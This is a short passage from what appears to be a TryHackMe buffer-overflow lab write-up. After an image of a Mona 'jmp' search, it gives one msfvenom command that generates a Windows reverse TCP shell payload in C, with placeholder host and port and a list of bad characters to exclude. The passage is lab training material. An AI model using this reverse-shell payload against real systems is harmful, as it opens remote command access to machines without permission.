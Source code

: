 ![Mona jmp](/images/THM/buffprep/of10/Captura8.PNG)

##### Generating Payload

It's time to generate the payload.

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<OUR IP> LPORT=<Port that we want> EXITFUNC=thread -b "\x00,\xa0,\xad,\xbe,\xde,\xef" -f c
```
